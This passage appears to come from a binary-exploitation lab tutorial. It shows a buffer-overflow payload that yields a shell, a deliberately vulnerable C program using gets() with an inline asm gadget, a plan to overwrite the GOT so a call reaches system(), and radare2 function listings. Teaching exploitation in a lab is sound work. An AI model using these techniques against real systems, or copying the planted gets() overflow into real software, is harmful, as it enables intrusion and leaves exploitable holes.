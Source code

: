 ```
Thu Jun 30 08:49:30 EDT 2022
id
Enter your name:hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB�@ !
id
uid=1000(lab) gid=1000(lab) groups=1000(lab),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```

#### Crafting our way to system()
This last case is a bit more complex but still easy to exploit if we follow the methodology. Here we face a more complex program, that will represent a large binary, with many functionalities, different libraries referenced and no reference to system. 
```C
#include <stdio.h>
#include <string.h>

__asm__(".globl func\n\t"
        ".type func, @function\n\t"
        "func:\n\t"
        ".cfi_startproc\n\t"
        "sub %rbp, (%rdi)\n\t"
        "ret\n\t"
        ".cfi_endproc");

char *dummy = "sh";    

void greet_me()
{
    char name[200];
    printf("Enter your name:");
    gets(name);
    printf("hi %s !\n",name);
  
}
int main(int argc, char *argv[])
{
    greet_me();
    return 0;  
}
```
The process here will be the following: We will find the addresses of printf() and system() in libc. Then we will compute the difference between them and we will use that to update the GOT and perform a call to system().

So we start by finding the plt of printf(). We cant' find the plt of system() because it is not used here.
```
[0x00400450]> afl
0x00400000    3 72   -> 73   sym.imp.__libc_start_main
0x00400400    3 23           sym._init
0x00400430    1 6            sym.imp.printf
0x00400440    1 6            sym.imp.gets
0x00400450    1 43           entry0
0x00400480    1 2            sym._dl_relocate_static_pie
0x00400490    3 35           sym.deregister_tm_clones
0x004004c0    3 53           sym.register_tm_clones
0x00400500    3 34   -> 29   sym.__do_global_dtors_aux
0x00400530    1 7            entry1.init
0x00400537    1 4            sym.func
0x0040053b    1 78           sym.greet_me
0x00400589    1 32           sym.main
0x004005b0    4 101          sym.__libc_csu_init
```